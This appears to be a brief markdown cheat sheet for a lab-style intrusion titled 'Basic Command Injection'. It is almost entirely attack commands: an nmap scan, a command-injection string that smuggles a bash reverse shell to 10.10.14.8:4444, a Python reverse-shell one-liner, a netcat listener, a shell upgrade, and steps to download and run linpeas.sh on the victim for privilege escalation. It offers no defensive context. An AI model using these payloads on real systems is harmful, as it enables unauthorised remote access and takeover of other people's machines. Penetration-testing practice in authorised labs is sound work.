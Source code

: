 ### Basic Command Injection

**1. Port Scan**

```bash
 sudo nmap -sS -sV -sC --top-ports 100 ip_address -oA ip_address
 ```
 
**2. Command Injection**

```bash
# victim machine
8.8.8.8; bash -c 'exec bash -i &>/dev/tcp/10.10.14.8/4444 <&1'

or

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# attacker machine
nc -nlvp 4444

# upgrade to interctive shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

```

**3. Privellege Escalation**

```bash
# https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

# attacker machine
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh

python -m SimpleHTTPServer 5555

# victim machine
wget http://10.10.14.8:5555/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh
```



